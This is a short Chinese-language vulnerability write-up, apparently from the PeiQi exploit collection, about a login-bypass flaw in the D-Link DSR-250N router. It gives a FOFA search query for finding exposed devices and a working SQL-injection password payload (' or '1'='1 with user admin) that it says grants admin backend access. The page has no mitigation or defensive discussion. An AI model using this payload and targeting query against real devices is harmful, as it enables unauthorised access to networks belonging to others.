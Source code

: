 ```yaml
---
title: D-Link DSR-250N 万能密码漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - D-Link
---
```


# D-Link DSR-250N 万能密码漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

> [!NOTE]
>
> D-Link DSR-250N

## FOFA

> [!NOTE]
>
> app="D_Link-DSR-250N"

## 漏洞复现

登录页面如下

![image-20210609175053339](/img/20210924020246176647.png)

```
user: admin
pass: ' or '1'='1
```

成功登录后台

![image-20210609175150907](/img/20210924020246418018.png)